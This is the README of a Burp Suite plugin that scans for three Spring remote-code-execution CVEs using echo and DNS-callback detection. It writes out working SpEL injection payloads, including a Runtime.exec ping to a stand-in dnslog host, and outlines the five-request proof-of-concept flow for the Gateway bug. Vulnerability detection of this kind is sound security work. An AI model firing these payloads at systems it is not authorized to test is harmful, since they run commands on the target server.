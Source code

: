 # SpringScan Burp 检测插件

## 支持检测漏洞

- [x] Spring Core RCE (**CVE-2022-22965**)
- [x] Spring Cloud Function SpEL RCE (**CVE-2022-22963**)
- [x] Spring Cloud GateWay SPEL RCE (**CVE-2022-22947**)

## 回连平台

- [x] Dnglog
- [x] BurpCollaboratorClient
- [x] Ceye
- [x] Digpm  (默认)
- [ ] 支持自定义回连平台

### CVE-2022-22965 检测方法

利用条件

* JDK9及其以上版本；
* 使⽤了Spring-beans包； 
* 使⽤了Spring参数绑定，参数绑定使⽤的是⾮基本参数类型，如POJO ；

* 使用Tomcat部署，且日志记录功能开启（默认开启）

因为这个洞上传shell还需要准确的web路径（默认在webapps\ROOT），写ssh和计划任务也需要root权限。实战中用exp去检测漏洞不太现实，所以思路转变到使用其他方法去检测漏洞的存在性。主要通过下面两种方式检测：

* 回显检测
* 回连检测（Digpm/BurpCollaboratorClient/Dnglos/Ceye）

详细原理 ➡️ [https://www.t00ls.cc/articles-65348.html](https://www.t00ls.cc/articles-65348.html)

检测置信度：

> 回连检测 > 回显检测

回显检测误报率较大，可能存在漏洞但不能保证JDK版本大于等于**9**，可以及时捕捉到不出网的漏洞；回连检测准确率高，不适用于不出网环境。
推荐在内网的环境只开启回显检测，在公网环境开回显检测和回连检测。

### CVE-2022-22963 检测方法 

利用条件

* 默认路由`/functionRouter`存在SpEL表达式注入

两种检测方法：

* 通过Java自带InetAddres库：`spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("xxx.dnslog.cn")`回连探测（可绕过WAF拦截命令执行进行漏洞探测）
* 通过执行`ping`命令：`spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping xxx.dnslog.cn")`回连探测
* 会扫描当前URI、以及当前URI拼接默认路由`/functionRouter`进行漏洞探测。

### CVE-2022-22947 检测方法

* 利用条件

该漏洞为当Spring Cloud Gateway启用和暴露 Gateway Actuator 端点时，使用 Spring Cloud Gateway 的应用程序可受到代码注入攻击。攻击者可以发送特制的恶意请求，从而远程执行任意代码。

检测方法：

* 首先随机访问一个不存在的路径，根据特征`Whitelabel Error Page`判断是否是Spring框架(1.x/2.x)；是则打POC，分五个请求：`包含恶意SpEL表达式的路由 -> 刷新路由 -> 访问添加的路由查看RCE结果 -> 删除路由 -> 刷新路由`

## 插件情况

|    **回显检测**     | **回连检测**  |
|:---------------:| :----:  |
| Spring Core RCE | Spring Core RCE |
|        Spring Cloud GateWay SPEL RCE         | Spring Cloud Function SpEL RCE |

## 编译

如需编译其他JDK版本，可参考如下方法编译jar包：

![image-20220409120135726](imgs/image-20220409120135726.png)

<img src="imgs/image-20220409120218010.png" alt="image-20220409120218010" style="zoom:50%;" />

<img src="imgs/image-20220409120315324.png" alt="image-20220409120315324" style="zoom:50%;" />

<img src="imgs/image-20220409120455863.png" alt="image-20220409120455863" style="zoom:50%;" />

## 截图

* 加载插件成功

![image-20220430195312197](imgs/image-20220430195312197.png)

* 漏洞检测情况

![image-20220411234911184](imgs/image-20220411234911184.png)

![image-20220411234930710](imgs/image-20220411234930710.png)

![image-20220411234948718](imgs/image-20220411234948718.png)

* 报错检测情况

![image-20220425233957353](imgs/image-20220425233957353.png)

target 模块中可以看到漏洞详情

![image-20220409124402852](imgs/image-20220409124402852.png)

* 插件设置，检测方法默认全开启，回连平台默认`Dig.pm`(推荐)

![image-20220409120720309](imgs/image-20220409120720309.png)

![image-20220413012818703](imgs/image-20220413012818703.png)

* 主动扫描：当不希望每个 URL都做被动扫描时，可以将插件关闭（检测方法正常开启），`右键请求数据包 -> Extensions -> SpringScan -> doScan`即可进行主动扫描：

![image-20220430194559458](imgs/image-20220430194559458.png)

## 免责声明

本工具仅作为安全研究交流，请勿用于非法用途。如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，本人将不承担任何法律及连带责任。
